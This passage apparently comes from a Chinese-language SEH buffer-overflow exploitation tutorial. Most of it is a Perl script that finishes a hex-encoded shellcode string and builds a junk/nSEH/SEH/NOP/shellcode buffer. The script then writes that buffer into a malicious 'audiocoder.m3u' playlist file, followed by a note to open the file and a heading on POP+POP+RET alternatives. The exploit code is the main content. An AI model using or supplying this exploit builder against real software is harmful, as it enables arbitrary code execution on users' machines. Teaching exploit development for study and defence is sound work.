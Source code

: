 ```perl
“\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf” .
“\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83” .
“\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3” .
“\x9a\xca\xc0”;

my $sploit = $junk.$nseh.$seh.$nops.$shell; # build sploit portion of buffer
my $fill = “\x43” x ($buffsize – (length($sploit))); # fill remainder of buffer
my $buffer = $sploit.$fill; # final buffer

# write the exploit buffer to file
my $file = “audiocoder.m3u”;
open(FILE, “>$file”);
print FILE $buffer;
close(FILE);
print “Exploit file created [” . $file . “]\n”;
print “Buffer size: ” . length($buffer) . “\n”;
```

打开 m3u 文件

![31](part6/31.png)

### POP+POP+RET 的替代品
